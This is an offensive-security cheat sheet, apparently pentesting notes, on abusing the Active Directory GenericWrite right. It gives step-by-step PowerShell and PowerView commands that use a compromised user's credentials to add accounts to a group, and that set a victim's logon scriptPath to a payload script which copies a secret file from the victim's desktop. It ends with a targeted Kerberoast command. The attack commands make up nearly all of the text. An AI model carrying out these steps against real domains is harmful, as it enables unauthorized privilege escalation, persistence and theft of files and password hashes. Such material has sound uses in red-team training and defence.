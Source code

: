 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  

## On a `User` Object `Logonscript` _Set-DomainObject_
**Tools**: PowerView
### Workflow

#### 1. **Create a Payload Script**

Prepare a script to perform the desired action. Save it in a location accessible by the target system.

- **Example 1**: List directory contents
    
    ```cmd
    echo "dir C:\Users\Alice\Desktop > C:\Temp\output.txt" > \\temp\\payload.ps1
    ```
#### 2. **Set the `scriptPath` Attribute**

- Use PowerView or another AD tool to modify the `scriptPath` of the target user object.

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
  
- **Example 2**: Copy a file
    
    ```cmd
    echo "copy C:\Users\Alice\Desktop\secret.txt C:\Temp\copied_secret.txt" > \\temp\\payload.ps1
    ```
- **Set the `scriptPath` Attribute**
    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
#### 3. **Retrieve the Results**

Check the output location defined in your script:

- Example: `C:\Temp\output.txt`
    
- Example: `C:\Temp\copied_secret.txt`
## Remotly
### A targeted `kerberoast` attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).
``` shell
python targetedKerberoast.py -v -d 'domain.com' -u 'user' -p 'password' --dc-ip <DomainController-IP>
```

        

